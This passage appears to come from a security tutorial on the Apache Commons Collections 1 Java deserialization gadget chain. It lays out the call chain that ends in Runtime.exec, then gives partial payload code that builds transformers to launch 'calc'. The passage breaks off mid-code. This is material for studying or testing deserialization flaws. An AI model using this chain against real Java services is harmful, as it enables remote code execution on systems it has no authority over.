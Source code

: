 ```java
                }
            }
        }

    }
```

##  pop链

```java
ObjectInputStream.readObject();
AnnotationInvocationHandler.readObject();
TransformedMap.entrySet().iterator().next().setValue();
TransformedMap.checkSetValue();
TransformedMap.transform();
ChainedTransformer.transform();
	ConstantTransformer.transform();
	InvokerTransformer.transform();
		Method.invoke();
		Class.getMethod();
	InvokerTransformer.transform();
		Method.invoke();
		Runtime.getRuntime();
	InvokerTransformer.transform();
		Method.invoke(;
		Runtime.exec();
```

##  payload

```java
package cc1;

import java.io.*;
import java.util.Map;
import java.util.HashMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class payload4 {
    public static void main(String[] args) throws Exception{
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);
        InvokerTransformer it1 = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]});
        InvokerTransformer it2 = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer it3 = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        Transformer[] transformers = new Transformer[]{ct, it1, it2, it3};
        Transformer chainedTransformer = new ChainedTransformer(transformers);

        Map map = new HashMap();
        //
        map.put("value", "value");

        Map transformermap = TransformedMap.decorate(map, null, chainedTransformer);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
```